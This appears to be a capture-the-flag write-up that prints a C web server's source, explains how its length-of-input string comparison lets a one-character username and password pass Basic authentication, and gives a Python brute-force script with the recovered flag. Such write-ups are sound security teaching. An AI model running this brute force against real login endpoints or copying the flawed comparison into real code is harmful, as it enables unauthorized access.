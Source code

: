 ### Cecure Cerver | 13 Solves 988 Points
```
Many Cecure web Cervers are written in C

Author: jro
```

This challenge was solved by `elijah5399`. This writeup is based upon his solve script.

We are given a hefty distribution file which contains a `.c` file of the server code used to launch the web application.
```c
#include <stdio.h>
#include <time.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>


#define STRING_EQUALS(s1, s2) (!strncmp(s1, s2, strlen(s1)))

void setup(){
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);
}

void send_response(int code, char *msg){
    char *status_msg = "Unknown";
    char *headers = "";
    if(code == 400){
        status_msg = "Bad Request";
    } else if (code == 200)
    {
        status_msg = "OK";
    } else if (code == 401)
    {
        status_msg = "Unauthorized";
        headers = "WWW-Authenticate: Basic realm=\"cerver\"\r\n";
    }
    
    printf("HTTP/1.1 %d %s\r\n", code, status_msg);
    printf("%s", headers);
    puts("Content-Type: text/plain\r");
    printf("Content-Length: %d\r\n", strlen(msg));
    puts("\r");
    printf("%s", msg);
    exit(0);
}


// Base64 character set
const char *base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";

// https://github.com/realapire/base64-encode-decode/blob/master/base64.c
// Function to decode a Base64 encoded string into binary data
unsigned char *base64_decode(const char *input, size_t *output_length) {
    size_t input_length = strlen(input) - 2;
    if (input_length % 4 != 0) {
        return NULL; // Invalid Base64 input length
    }

    // Calculate the expected output length
    *output_length = (3 * input_length) / 4;
    if (input[input_length - 1] == '=') {
        (*output_length)--;
    }
    if (input[input_length - 2] == '=') {
        (*output_length)--;
    }

    // Allocate memory for the decoded data
    unsigned char *decoded_data = (unsigned char *)malloc(*output_length);
    if (decoded_data == NULL) {
        return NULL; // Memory allocation failed
    }

    // Initialize variables for decoding process
    size_t j = 0;
    __uint32_t sextet_bits = 0;
    int sextet_count = 0;

    // Loop through the Base64 input and decode it
    for (size_t i = 0; i < input_length; i++) {
        // Convert Base64 character to a 6-bit value
        __uint32_t base64_value = 0;
        if (input[i] == '=') {
            base64_value = 0;
        } else {
            const char *char_pointer = strchr(base64_chars, input[i]);
            if (char_pointer == NULL) {
                free(decoded_data);
                return NULL; // Invalid Base64 character
            }
            base64_value = char_pointer - base64_chars;
        }

        // Combine 6-bit values into a 24-bit sextet
        sextet_bits = (sextet_bits << 6) | base64_value;
        sextet_count++;

        // When a sextet is complete, decode it into three bytes
        if (sextet_count == 4) {
            decoded_data[j++] = (sextet_bits >> 16) & 0xFF;
            decoded_data[j++] = (sextet_bits >> 8) & 0xFF;
            decoded_data[j++] = sextet_bits & 0xFF;
            sextet_bits = 0;
            sextet_count = 0;
        }
    }

    return decoded_data;
}


char *read_file(char *fname){
    int fd = open(fname, O_RDONLY);
    char *data = calloc(1, 0x20);
    read(fd, data, 0x20);
    close(fd);
    return data;
}


int main(){
    char line[0x100];
    fgets(line, sizeof(line), stdin);

    char *method = strtok(line, " ");

    if(!STRING_EQUALS(method, "GET")){
        send_response(400, "Only GET request allowed");
    }

    // Headers
    while(1) {
        fgets(line, sizeof(line), stdin);
        if(STRING_EQUALS(line, "\r\n")){
            break;
        }
        char *header_name = strtok(line, ":");
        if(STRING_EQUALS(header_name, "Authorization")){
            char *val = line + strlen(header_name) + 2;
            if(!STRING_EQUALS("Basic ", val)){
                send_response(401, "Basic authentication required!");
            }
            char *base64ed = line + strlen("Authorization: Basic ");
            size_t len;
            char *decoded = base64_decode(base64ed, &len);

            char *correct_username = read_file("./uname.txt");
            char *correct_password = read_file("./pwd.txt");
            char *flag = read_file("./flag.txt");
            char* username = strtok(decoded, ":");
            if(username && strlen(username) && STRING_EQUALS(username, correct_username)){
                char *password = strtok(NULL, ":");
                if(password && strlen(password) && STRING_EQUALS(password, correct_password)){
                    send_response(200, flag);
                }
            }
            send_response(401, "Invalid credentials");
        }
    }
    send_response(401, "Authentication required");
}
```

When we connect to the web application, we find ourselves in `main()` which automatically launches a pop-up telling us to insert credentials. We enter a username, password pair which is then checked by the server in `uname.txt` and `pwd.txt`, both of which we aren't able to access or know of. (we can't LFI into them to begin with by calling `http://challs.nusgreyhats.org:32905/uname.txt` for instance, as we still need to authenticate ourselves first). Regardless, once we pass authentication, `send_response(200, flag)` is called thus giving us the flag.

The vulnerability for this challenge lies in `STRING_EQUALS()`
```c
#define STRING_EQUALS(s1, s2) (!strncmp(s1, s2, strlen(s1)))
```
It calls `strncmp()` which checks up to the length of the first parameter. This very first parameter, also happens to be our input `username` and `password`.

Thus, suppose we know the first byte of `uname.txt` and `password.txt`. By inputting the first byte, `STRING_EQUALS()` will be called on our input which will only check up till the first byte. In such a case, we would pass the authentication check even though we don't know what the rest of the username or password is!

This makes way for a 2^16 brute force of possible byte combinations. We narrow it down to printable characters and manage to find a valid pair;

```py
import requests
import base64
import string
from tqdm import tqdm

# # brute force code
# l = [chr(_) for _ in range(0x20, 0x7f)]
# for i in tqdm(l):
#     for j in l:
#         b = f"{i}:{j}".encode()
#         pl = f"Basic {base64.b64encode(b).decode()}"
#         r = requests.get('http://challs.nusgreyhats.org:32905/',headers={'Authorization': pl})
#         if r.status_code == 200:
#             print(f"found b64 key: {b}")

i = "6"
j = "b"
b = f"{i}:{j}".encode()
pl = f"Basic {base64.b64encode(b).decode()}"
r = requests.get('http://challs.nusgreyhats.org:32905/',headers={'Authorization': pl})
print(r.text)
```

```
grey{3xpl0171n6_l061c_bu65}
```